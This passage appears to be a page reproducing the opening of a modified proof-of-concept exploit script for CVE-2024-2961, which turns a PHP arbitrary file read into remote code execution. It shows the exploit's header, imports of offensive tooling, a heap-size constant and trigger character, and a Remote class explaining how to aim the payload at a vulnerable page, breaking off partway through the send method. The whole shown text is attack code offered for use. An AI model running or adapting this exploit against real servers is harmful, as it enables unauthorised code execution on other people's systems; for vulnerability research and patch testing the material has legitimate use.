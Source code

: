 Here the full PoC modified :

## PoC 

```python
#!/usr/bin/env python3
#
# CNEXT: PHP file-read to RCE (CVE-2024-2961)
# Date: 2024-05-27
# Author: Charles FOL @cfreal_ (LEXFO/AMBIONICS)
#
# TODO Parse LIBC to know if patched
#
# INFORMATIONS
#
# To use, implement the Remote class, which tells the exploit how to send the payload.
#

from __future__ import annotations

import base64
import urllib.parse
import zlib
import urllib

from dataclasses import dataclass
from requests.exceptions import ConnectionError, ChunkedEncodingError

from pwn import *
from ten import *


HEAP_SIZE = 2 * 1024 * 1024
BUG = "劄".encode("utf-8")


class Remote:
    """A helper class to send the payload and download files.
    
    The logic of the exploit is always the same, but the exploit needs to know how to
    download files (/proc/self/maps and libc) and how to send the payload.
    
    The code here serves as an example that attacks a page that looks like:
    
    ```php
    <?php
    
    $data = file_get_contents($_POST['file']);
    echo "File contents: $data";
    ```
    
    Tweak it to fit your target, and start the exploit.
    """

    def __init__(self, url: str) -> None:
        self.url = url
        self.session = Session()

    def send(self, path: str) -> Response:
        """Sends given `path` to the HTTP server. Returns the response.
        """

        data = {'action' : 'upload_image_from_url',
```